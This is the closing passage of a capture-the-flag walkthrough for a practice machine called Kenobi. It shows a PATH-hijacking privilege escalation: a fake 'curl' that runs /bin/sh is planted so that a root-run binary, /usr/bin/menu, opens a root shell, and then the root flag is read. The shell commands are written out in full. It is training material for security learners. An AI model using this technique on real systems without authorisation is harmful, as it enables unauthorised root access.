 The next step is not necessary for this machine, but I like to stay in practice by looking through everything I come across. So I ran the binary three times and selected each option to see what happened or if we could enumerate any additional information from them.

You do see that they are running with out using the full path of /usr/bin/curl, /usr/bin/uname, and /usr/bin/ifconfig.

Knowing this will allow me to manipulate my path to elevate my privileges. First I cd into my tmp directory. Then I echo the path of a bash shell to my curl command, set it's privileges, and set my path. Now I can run the binary to elevate to root. 

```bash
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu
```
![root](root.png)

> We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

> Answer: No answer needed.

All thats left is to cat your root flag at /root/root.txt.

> What is the root flag (/root/root.txt)?

> Answer: root.txt's value


And that's root! Happy Hacking!
